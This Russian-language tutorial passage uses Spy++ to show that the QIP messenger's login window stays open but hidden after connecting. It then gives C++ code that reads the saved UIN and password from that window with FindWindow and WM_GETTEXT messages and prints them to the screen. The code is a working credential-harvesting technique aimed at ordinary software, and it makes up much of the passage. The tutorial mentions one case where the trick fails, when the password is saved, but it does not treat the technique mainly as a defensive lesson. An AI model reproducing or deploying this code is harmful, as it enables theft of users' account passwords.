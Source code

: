Нажимаем Ok и Spy++ показывает нам в списке окон нужное нам окно - "QIP - Спокойное общение!", имя класса которого TManForm. На нем дерево дочерних окон, обеспечивающих интерфейс подключения к серверу. Нас интересуют TGroupBox, TComboBox на нем и TEdit. Это как раз наши UIN и пароль. Запомним название классов.  
Переходим снова в окно QIP и нажимаем кнопку "Подключиться".  
Диалог входа закрылся. Можно общаться. Но проверим, закрылось ли окно диалога? Обновим список окон в Spy++ \(клавиша F5\) и попробуем снова найти окно авторизации QIP. Нажимаем Alt+F3 и вводим параметры поиска. Для того чтобы найти окно нам надо указать хотя бы один параметр: Handle - уникальный идентификатор окна, Caption - надпись формы, Class - имя класса окна. Мы будем искать по классу.  
Вводим в поле Class класс окна TManForm. Жмем Ok.  
  
Что мы видим? Окно не закрылось. Оно просто невидимо... Попробуем прочитать поля с данными авторизации. Для этого используем стандартный механизм общения окон и системы в Windows - сообщения.

  
**Начинаем программировать.**

```text
void main()
{
// Объявим переменные, необходимые для работы
HWND hManForm,hGroupBox,hEdit,hComboBox; // Идентификаторы форм
char* pUIN; // Указатель на буфер для UIN
char* pPass; // Указатель на буфер для пароля
int iUIN; // Длина UIN
int iPass; // Длина пароля
// Найдем окно диалога авторизации
hManForm=FindWindow("TManForm",0);
// Расположенная на нем группа элементов управления
hGroupBox=FindWindowEx(hManForm,0,"TGroupBox",0);
// Список с UIN'ами
hComboBox=FindWindowEx(hGroupBox,0,"TComboBox",0);
// Получим длину текста в списке
iUIN=SendMessage(hComboBox, WM_GETTEXTLENGTH, 0, 0)+1;
// Выделяем необходимую память для буфера
pUIN=(char*)LocalAlloc(0, iUIN);
// Получим непосредственно текст
SendMessage(hComboBox, WM_GETTEXT, iUIN, (long)pUIN);
// Поле с паролем
hEdit=FindWindowEx(hGroupBox,0,"TEdit",0);
// Дальше все по аналогии с UIN'ом
iPass=SendMessage(hEdit, WM_GETTEXTLENGTH, 0, 0)+1;
pPass=(char*)LocalAlloc(0, iPass);
SendMessage(hEdit, WM_GETTEXT, iPass, (long)pPass);
//Выведем что получилось
cout << "[!!!]Found for: "<< pUIN << "\tPassword: " << pPass;
// Освободим память
LocalFree(pUIN);
LocalFree(pPass);
}
```

Сохраняем, компилируем, запускаем. Что у нас получилось? Если все сделано верно, то программа вернет строку, содержащую ваш UIN и пароль.  
Следует заметить, что если мы запустим QIP, в котором предварительно была установлена опция "Сохранить пароль", то данный метод получения пароля работать не будет, так как в поле пароля находится текст "&lt;:HIDDEN:&gt;". Видимо, разработчик, краем уха все-таки слышал про безопасность.
